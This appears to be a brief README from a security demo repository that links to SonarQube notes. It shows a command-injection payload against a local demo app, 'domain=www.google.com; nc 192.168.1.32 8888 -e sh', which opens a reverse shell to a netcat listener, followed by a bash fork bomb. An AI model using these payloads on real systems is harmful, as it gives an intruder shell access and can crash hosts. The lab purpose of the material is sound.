 # Code Security 

## Code scanning

- [Sonarqube](sonarqube/README.md)

## Remote Code execution with Reverse Shell

```bash
# Locally
nc -lvp 8888
# In any browser
http://goto-demo.localtest.me/?domain=www.google.com; nc 192.168.1.32 8888 -e sh

# DANGEROUS! Kills worker node!
fork() {
    fork | fork &
}
fork
```
